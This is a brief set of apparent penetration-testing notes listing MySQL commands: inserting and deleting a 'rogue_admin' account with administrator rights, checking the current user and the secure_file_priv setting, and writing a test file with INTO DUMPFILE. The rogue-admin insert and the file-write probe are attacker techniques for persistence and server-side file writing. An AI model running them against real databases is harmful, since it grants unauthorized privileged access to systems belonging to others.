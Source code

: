 # CRUD Operations

1. Create rogue admin: `INSERT INTO users (username, password, is_admin) VALUES ('rogue_admin', MD5("RoguePass123"), TRUE);`

2. Delete rogue admin: `DELETE FROM users WHERE username = 'rogue_admin';`

# Filesystem operations

1. View the current user: `SELECT current_user;`
   
2. Check for the `secure_file_priv` setting: `SHOW VARIABLES LIKE 'secure_file_priv';`

3. Trying to create a file: `SELECT 'test123' INTO DUMPFILE '/var/lib/mysql-files/test.txt';`
